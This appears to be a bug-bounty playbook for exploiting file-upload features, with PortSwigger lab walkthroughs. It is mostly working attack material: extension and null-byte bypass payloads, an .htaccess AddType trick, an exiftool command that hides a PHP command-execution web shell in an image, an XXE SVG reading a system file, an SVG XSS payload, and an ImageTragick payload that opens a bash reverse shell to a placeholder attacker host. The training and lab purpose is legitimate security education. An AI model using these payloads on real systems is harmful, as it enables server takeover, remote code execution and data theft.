

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
---

# File Upload: Master Playbook (Gold Standard)

> **Beginner Mindset**: File upload features are like a "Loading Dock" for a warehouse. If the security guard doesn't check the boxes, an attacker can ship in a "Trojan Horse" (a web shell) that takes over the entire building. Our goal is to trick the server into accepting a dangerous script (PHP, ASP, JS) while it *thinks* it's just receiving a profile picture.

---

## 0. Exploit Selection Search Tree
*Use this logic to prioritize your File Upload attack surface:*



1. **Does the app allow you to upload any extension (zero validation)?**
    *   **Yes** → Start with **[[#4.1 Basic RCE via Web Shell]]**.
2. **Is your `.php` or `.asp` extension blocked by a blacklist?**
    *   **Yes** → Try **[[#2.1 Technical Bypass Methods]]** (e.g., `.phtml`, Double extensions) or **[[#4.4 Extension Blacklist Bypass (.htaccess)]]** (if Apache).
3. **Is there a strict whitelist (only images allowed)?**
    *   **Yes** → Try **[[#4.5 Obfuscated Null Byte Bypass]]** (`exploit.php%00.jpg`).
4. **Is the server validating `Content-Type: image/jpeg`?**
    *   **Yes** → Use **[[#4.2 Content-Type Bypass]]** by spoofing MIME types.
5. **Is the server validating Magic Bytes (file headers)?**
    *   **Yes** → Use **[[#4.6 Polyglot Web Shell (ExifTool)]]** to embed code in a real image.
6. **Is the server preventing script execution in the uploads folder?**
    *   **Yes** → Use **[[#4.3 Path Traversal Bypass]]** (`filename="../shell.php"`) to move your shell out.

---

## 1. Professional Methodology: UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Basic Upload** | The security guard is completely asleep. | Server accepts `.php` payload. | RCE via uploaded shell URL. | **Critical** (P1) |
| **Content-Type** | Forging the label on the shipping box. | Accepts payload when `Content-Type` changed. | RCE via uploaded shell URL. | **Critical** (P1) |
| **Null Byte / Polyglot** | Hiding the weapon inside a real delivery. | File accepted despite validation. | RCE via hidden payload execution. | **Critical** (P1) |
| **Path Traversal** | Leaving the package in the Manager's office. | `../` characters accepted in filename. | Shell drops executing outside of `/uploads`. | **Critical** (P1) |

---

### 1.1 Extension Impact Registry

### 1.1 Extension Impact Registry
| Extension | Primary Risk | Attack Scenario |
| :--- | :--- | :--- |
| **PHP, ASPX, JSP** | **RCE (Remote Code Execution)** | Uploading a webshell to execute system commands. |
| **SVG** | **XSS, SSRF, XXE** | Embedding XML/JS inside the image vector. |
| **GIF** | **XSS, SSRF** | Using GIF headers to hide JS payloads. |
| **CSV, XML** | **Injection / XXE** | Formula injection in Excel or XML external entities. |
| **AVI, ZIP** | **LFI, SSRF, DoS** | Abusing file parsers or "Zip Slip" extraction. |
| **HTML, JS** | **XSS, Open Redirect** | Serving malicious scripts from the app's own domain. |

---

## 2. Phase 1: Upload Bypass & Evasion (Heritage Data)

### 2.1 Technical Bypass Methods
| Technique | Action | Payload Example |
| :--- | :--- | :--- |
| **Content-Type** | Change `application/x-php` to `image/jpeg`. | `Content-Type: image/jpeg` |
| **Double Extension** | Using two extensions to confuse the parser. | `file.jpg.php` |
| **Null Byte** | Terminating the string early in the backend. | `file.php%00.jpg` |
| **Hex Modification**| Change a character to Hex `00` in Burp. | `file.phpD.jpg` -> `file.php\x00.jpg` |
| **Polyglot/Magic Bytes**| Adding GIF/Image headers before code. | `GIF89a; <?php system("id") ?>` |
| **Blacklist Evasion**| Using unpopular or capitalized extensions. | `.phtml`, `.php5`, `.PhAr`, `.asa` |

### 2.2 Whitelist / Parser Bypasses (Raw Payloads)
- `file.php.jpg`
- `file.php.blah123jpg`
- `file.php%20`
- `file.php%0d%0a.jpg`
- `file.php.....`
- `file.php/`
- `file.php.\`
- `file.php#.png`
- `file.`
- `.html`

---

## 3. Phase 2: Vulnerability Chaining (Advanced)

### 3.1 Metadata & Image Processing Attacks
* **ImageTragick (RCE)**:
  ```http
  push graphic-context
  viewbox 0 0 640 480
  fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
  pop graphic-context
  ```
* **Exiftool Image Shell**:
  ```bash
  exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); ?>' pic.jpg
  mv pic.jpg pic.php.jpg
  ```

### 3.2 XML Vector Attacks (SVG)
* **XXE in SVG**:
  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
  <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg">
     <text font-size="40" x="0" y="16">&xxe;</text>
  </svg>
  ```
* **Stored XSS in SVG**:
  ```xml
  <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
  ```

---

## 4. Phase 3: Portswigger Case Studies (18 Images)

### 4.1 Basic RCE via Web Shell
- **Scenario**: App has zero validation.
- **Payload**: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- **Action**: Upload as `.php`, access via `/files/avatars/exploit.php`.

### 4.2 Content-Type Bypass
- **Attack**: App checks MIME type.
- **Action**: Intercept `POST` upload and change `Content-Type: application/x-php` to `image/jpeg`.
- 
  > **Beginner Note**: The server is checking the `Content-Type` header to decide if the file is safe. By changing it to `image/jpeg` while keeping our PHP code in the body, we trick the "security guard" into letting a dangerous file through.

- 
  > **Beginner Note**: The server confirms the file was uploaded because it trusts our lie about the file type.

- 
  > **Beginner Note**: We access our uploaded script. Even though we lied about the type during upload, the server sees it's a `.php` file now and executes it, giving us the secret password.

### 4.3 Path Traversal Bypass
- **Attack**: App prevents execution in the `avatars` folder.
- **Action**: Use `filename="../exploit.php"` to move the file to a parent folder that *allows* execution.
- 
  > **Beginner Note**: Many servers store images in a "safe" folder where scripts are forbidden from running. By using `../` in the filename, we try to "escape" that safe folder and place our shell in a directory where the server *will* execute it.

- 
  > **Beginner Note**: The simple `../` was blocked. We use `%2f` (URL encoding for a slash) to hide our "jump" from the server's security filter.

- 
  > **Beginner Note**: The server's response shows the filename as `avatars/../exploit.php`. This proves our trick worked—the file is being placed one level higher than intended.

- 
  > **Beginner Note**: We visit the new location. Because this folder allows execution, our script runs and dumps the secret data.

- 
  > **Beginner Note**: Lab solved! Path traversal in a filename is a powerful way to land shells in dangerous locations.

### 4.4 Extension Blacklist Bypass (.htaccess)
- **Attack**: `.php` is blocked on Apache.
- **Action**: 
  1. Upload `.htaccess` with code: `AddType application/x-httpd-php .l33t`
  2. Upload your shell as `exploit.l33t`.
- 
  > **Beginner Note**: On Apache servers, the `.htaccess` file controls security. We upload a custom one that tells the server: "Treat any file ending in `.l33t` as a PHP script." We are basically rewriting the server's own rules.

- 
  > **Beginner Note**: Now we upload our shell with the `.l33t` extension. The server's main filter doesn't recognize `.l33t` as dangerous, so it lets it pass.

- 
  > **Beginner Note**: When we visit `exploit.l33t`, the server remembers the rule we gave it in Step 1. It executes the file as PHP, giving us full control.

- 
  > **Beginner Note**: Success! Always check if you can overwrite configuration files like `.htaccess` or `web.config`.

### 4.5 Obfuscated Null Byte Bypass
- **Technique**: `exploit.php%00.jpg`
- 
  > **Beginner Note**: We name our file `exploit.php%00.jpg`. In Burp, we see the `%00` URL-encoded null byte. This tells the computer's memory: "The string ends right here."

- 
  > **Beginner Note**: The server's response indicates it saved the file as `exploit.php`. It discarded everything after the null byte. Our fake `.jpg` extension did its job of bypassing the initial filter.

- 
  > **Beginner Note**: We access `exploit.php`, and the server executes it. This is a classic "C-style" string vulnerability common in older backends.

### 4.6 Polyglot Web Shell (ExifTool)
- **Attack**: Server checks image contents (Magic Bytes).
- **Action**: Use `exiftool` to embed the PHP payload into a real image.
- 
  > **Beginner Note**: The server is smart—it looks *inside* the file to make sure it's a real image. So, we take a real image and use a tool called `exiftool` to hide our PHP code inside the "Comment" section of the image's metadata.

- 
  > **Beginner Note**: We upload `polyglot.php`. The server sees a valid JPG header and thinks it's safe. It doesn't notice the tiny script hidden in the background data.

- 
  > **Beginner Note**: We visit the file. The server sees the `.php` extension and executes it. Our secret data is printed among the "garbage" binary data of the image.

- 
  > **Beginner Note**: We search for our "START" and "END" markers in the response. There it is! The secret code, hidden inside a "real" image.

---

## 5. References & Resources
- [Intigriti: Advanced File Upload Guide](https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities)
- [Portswigger: File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [Az0x7: Comprehensive PDF Idea List](https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/File-Upload.pdf)

---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
